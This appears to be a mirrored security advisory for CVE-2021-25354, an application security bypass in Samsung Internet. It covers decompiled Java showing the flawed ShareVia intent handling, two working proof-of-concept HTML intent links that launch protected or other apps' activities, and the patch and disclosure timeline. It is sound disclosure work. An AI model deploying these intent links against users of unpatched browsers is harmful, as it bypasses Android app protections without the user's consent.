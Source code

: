 ```yaml
---
layout: page
title: CVE-2021-25354 Details
permalink: /cves/cve-2021-25354
---
```


#### Original post: [https://labs.f-secure.com/advisories/open-activities-via-samsung-browser/](https://labs.f-secure.com/advisories/open-activities-via-samsung-browser/)

|    **Product**    | Android devices with Samsung Internet (prior to version 13.2.1.46) |
|    **Severity**   |                  Medium                  |
| **CVE Reference** |              CVE-2021-25354              |
|      **Type**     |        Application Security Bypass       |

## Description

F-Secure looked into exploiting the Samsung S20 device for Tokyo Pwn2Own 2020. An issue was discovered that allowed a specific browsable intent in Samsung Browser (com.sec.android.app.sbrowser) to either:

* Launch non-exported activities in the Samsung Browser application
* Launch an exported activity in any installed application

Note that while this issue was found on a Samsung Galaxy device, the Samsung Internet browser application is available on the Google Play store and can be installed on any Android device with access to said store. It was confirmed that this issue could be exploited on any Android device that had the Samsung Internet application installed.

## Technical Details

The issue is due to the class `com.sec.android.app.sbrowser.capsule.BixbySBrowserLauncherActivity` methods `handleIntent` and `handleShareVia`. First, `handleIntent` does the following:

* Parses the passed intent and establishes the URI `data` from the intent's data
* Parses the URI `data` and establishes the list `pathSegments` from the URI's path segments
* If the first item in the list `pathSegments` is `ShareVia`, then the method `handleShareVia` is executed

```
private void handleIntent(final Intent intent) {
    final String action = intent.getAction();
    final Uri data = intent.getData();
    int n = 1;
    if ("android.intent.action.VIEW".equals(action) && data != null) {
        final String string = data.toString();
        final List pathSegments = data.getPathSegments();
        if ((this.mPathSegments = (List<String>)pathSegments) != null) {
            if (pathSegments.size() != 0) {
                final String pathSegments2 = this.getPathSegments(0);
                if (pathSegments2 == null) {
                    return;
                }
            Label_0738: {
                switch (pathSegments2.hashCode()) {
                ...
                    case -679124017: {
                        if (pathSegments2.equals("ShareVia")) {
                            n = 4;
                            break Label_0738;
                        }
                        break;
                }
                ...
            switch (n) {
                ...
                case 4: {
                    this.handleShareVia();
                    break;
                }
```

Next, `handleShareVia` does the following:

* Creates a new intent `createIntentWithTargetTask`
* Checks if the second item in the list `pathSegments` is `result_type_success`
* Checks if the third and fouth items in the list `pathSegments` are not null
* If the fourth item in the list `pathSegments` is not `com.sec.android.app.sbrowser.ReceiveWeChatMomentActivity`, then assign the following `createIntetWithTargetTask` extra values:
	* `packageName` = the third item in the list `pathSegments`
	* `activityName` = the fourth item in the list `pathSegments`
* Start the activity outlined in the intent `createIntentWithTargetTask`

```
private void handleShareVia() {
    String pathSegments = getPathSegments(1);
    if (pathSegments != null) {
        Intent createIntentWithTargetTask = createIntentWithTargetTask("com.sec.android.app.sbrowser.INTENT_SHARE_VIA");
        createIntentWithTargetTask.putExtra("resultType", pathSegments);
        if ("result_type_success".equals(pathSegments)) {
            String pathSegments2 = getPathSegments(2);
            String pathSegments3 = getPathSegments(3);
            if (pathSegments2 != null && pathSegments3 != null) {
                if (pathSegments3.equals("com.sec.android.app.sbrowser.ReceiveWeChatMomentActivity") && !this.isWeChatAvailable()) {
                    Log.d("BixbyLauncherActivity", "WeChat is not installed!");
                    createIntentWithTargetTask.putExtra("resultType", "result_type_fail");
                } else {
                    createIntentWithTargetTask.putExtra("packageName", pathSegments2);
                    createIntentWIthTargetTask.putExtra("activityName", pathSegments3);
                }
            } else {
                return;
            }
        ...
        try {
            getApplicationContext().startActivity(createIntentWithTargetTask);
        } catch (ActivityNotFoundException e) {
            Log.d("BixbyLauncherActivity", "[handleShareVia]" + e.toString());
        }
    }
}
```

Using this information, it is possible to create a custom intent that launches a specific activity:

```
intent://com.sec.android.app.sbrowser/ShareVia/result_type_success/<package name>/<activity name>
```

The following example browsable intent link will launch the non-exported component `com.sec.android.app.sbrowser/com.google.zxing.client.android.SecCaptureActivity` in the Samsung Browser application:

```
<a href="intent://com.sec.android.app.sbrowser/ShareVia/result_type_success/com.sec.android.app.sbrowser/com.google.zxing.client.android.SecCaptureActivity/#Intent;scheme=samsunginternet;action=android.intent.action.VIEW;package=com.sec.android.app.sbrowser;end">click here</a>
```

By replacing the appropriate fields, it is also possible to launch activities that are exported in other applications. The following browsable intent link will launch the exported component `com.sec.android.app.myfiles/com.sec.android.app.myfiles.external.ui.PickerActivity`:

```
<a href="intent://com.sec.android.app.sbrowser/ShareVia/result_type_success/com.sec.android.app.myfiles/com.sec.android.app.myfiles.external.ui.PickerActivity/#Intent;scheme=samsunginternet;action=android.intent.action.VIEW;package=com.sec.android.app.sbrowser;end">click here</a>
```

## Remedial Action

Samsung has released Samsung Browser version 13.2.1.46 which fixes the issue outlined in this advisory. F-Secure recommends that users upgrade Samsung Browser to at least version 13.2.1.46.

## Credits

This issue was discovered by Ken Gannon.

## Timeline

|    **Date**    | **Summary** |
|   02/11/2020   | Issue disclosed to Samsung Mobile Security |
|   02/11/2020   | Issue assigned to a Samsung Security Analyst |
|   12/01/2021   | Follow up sent to Samsung |
|   17/01/2021   | Samsung confirms the vulnerability and rates it as a moderate risk issue |
|   09/02/2021   | Patch released, Samsung initiates process for bug bounty reward |
|   25/03/2021   | CVE Assigned |
|   26/03/2021   | Advisory Published |